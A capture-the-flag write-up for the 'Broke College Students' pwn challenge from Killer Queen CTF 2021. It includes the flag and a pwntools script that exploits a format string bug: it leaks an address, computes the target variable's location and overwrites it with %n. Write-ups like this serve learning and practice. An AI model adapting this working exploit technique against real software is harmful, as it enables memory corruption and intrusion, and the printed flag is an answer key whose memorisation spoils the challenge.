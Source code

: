 ```yaml
---
layout: writeup
title: Broke College Students
ctf: Killer Queen CTF
points: 293
solves: 84
tags: 
    - pwn
date: 2021-11-01
description: |-
    The lengths that some people go to in order to pay for college.
flag: kqctf{did_you_resort_to_selling_NFTs_for_college_money_????}
---
```

<details>
    <summary>tl;dr</summary>
    
</details>

***

## Introduction

Basic idea:
Format string attack in two steps.
Step 1: leak an address, find the same offset with `objdump`, add offset of `MONEY` -- result is real address of `MONEY` in memory, which we want to override.
Step 2: Use format string to write 999999 characters followed by `%n`, allowing us to place that value in an address we specify afterwards -- so we specify the `MONEY` address to get that amount of money.
This allows us to buy the flag.

```python
from pwn import *

p = remote("143.198.184.186", 5001)
#p = process("./brokecollegestudents")

def send_string(choice):
    p.recvuntil(b": ")
    p.sendline(b"1")
    p.recv()
    p.sendline(b"1")
    p.recvuntil(b": ")
    p.recvuntil(b": ")
    p.sendline(b"1")
    p.recvuntil(b": ")
    p.sendline(choice)
    p.recvlines(2)
    return p.recvline().split(b"What")[0]


leaked_addr = int(send_string(b"%8$p")[2:], 16)
log.success(f"ADDRESS LEAK: {hex(leaked_addr)}")

addr_offset = 0x1160
base_addr = leaked_addr - addr_offset
money_offset = 0x401c
money_addr = p64(base_addr + money_offset)

send_string(f"%99999999c%8$n__".encode() + money_addr)

p.interactive()
```